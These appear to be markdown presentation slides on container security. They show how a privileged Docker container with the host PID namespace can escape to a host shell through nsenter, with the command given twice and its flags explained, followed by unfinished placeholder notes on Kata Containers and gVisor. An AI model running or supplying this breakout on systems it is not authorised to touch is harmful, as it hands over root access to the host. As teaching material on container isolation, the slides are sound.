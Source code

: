 ## Privileged Containers

Privileged containers have access to all syscalls

If able to start containers, just leave the isolation:

```bash
docker run -it \
    --privileged \
    --pid=host \
    alpine \
	nsenter -t 1 -m -u -n -i sh
```

Parameters of `nsenter`:

- Work with namespaces (nsenter)
- Uses process tree of host (--pid=host)
- Get namespace from PID 1 (-t 1)
- Enter namespaces required for shell (-m -u -n -i)

--

## Demo: Privileged Containers

Running privileged containers:

```bash
docker run -d --rm --privileged docker:stable-dind
```

Host breakout from privileged container:

```bash
docker run --rm --privileged --pid=host -it alpine:3.8 \
    nsenter -t 1 -m -u -n -i sh
```

---

## Taming Privileges Containers

XXX kata containers

XXX Google gVisor
